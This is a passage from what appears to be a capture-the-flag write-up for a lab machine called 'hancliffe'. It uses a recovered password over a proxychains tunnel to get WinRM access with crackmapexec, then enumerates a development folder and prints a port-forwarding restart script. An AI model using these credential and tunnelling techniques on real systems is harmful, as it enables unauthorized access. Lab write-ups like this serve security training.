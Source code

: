 Leveraging the dynamic reverse port forward tunnel, this password grants access as the `development` user via WinRM.

```bash
$ proxychains crackmapexec winrm 127.0.0.1 -d hancliffe -u development -p "AMl.q2DHp?2.C/V0kNFU"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
WINRM       127.0.0.1       5985   127.0.0.1        [*] http://127.0.0.1:5985/wsman
WINRM       127.0.0.1       5985   127.0.0.1        [+] hancliffe\development:AMl.q2DHp?2.C/V0kNFU (Pwn3d!)
```

---

## Reverse Engineering Credentials from `MyFirstApp`

Unlike `svc_account` and `clara`, `development` has read access to `C:\DevApp\`.

```batch
c:\>icacls C:\DevApp
icacls C:\DevApp
C:\DevApp NT AUTHORITY\SYSTEM:(OI)(CI)(F)
          HANCLIFFE\development:(OI)(CI)(R)
          BUILTIN\Administrators:(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

`C:\DevApp\` contains two files: `MyFirstApp.exe` and `restart.ps1`.

```batch
dc:\DevApp>ir
dir
 Volume in drive C has no label.
 Volume Serial Number is B0F6-2F1B

 Directory of c:\DevApp

09/14/2021  09:57 AM    <DIR>          .
09/14/2021  09:57 AM    <DIR>          ..
09/14/2021  04:02 AM            60,026 MyFirstApp.exe
09/14/2021  09:57 AM               636 restart.ps1
               2 File(s)         60,662 bytes
               2 Dir(s)   5,652,725,760 bytes free
```

`restart.ps1` ensures `MyFirstApp.exe` is restarted every 3 minutes. It also forwards `0.0.0.0`:9999 to whatever random port is being served by `MyFirstApp.exe`.

```powershell
# Restart app every 3 mins to avoid crashes
while($true) {
  # Delete existing forwards
  cmd /c "netsh interface portproxy delete v4tov4 listenport=9999 listenaddress=0.0.0.0"
  # Spawn app
  $proc = Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ("C:\DevApp\MyFirstApp.exe")
  sleep 2
  # Get random port
  $port = (Get-NetTCPConnection -OwningProcess $proc.ProcessId).LocalPort
  # Forward port to 9999
  cmd /c "netsh interface portproxy add v4tov4 listenport=9999 listenaddress=0.0.0.0 connectport=$port connectaddress=127.0.0.1"
  sleep 180
  # Kill and repeat
  taskkill /f /t /im MyFirstApp.exe
}
```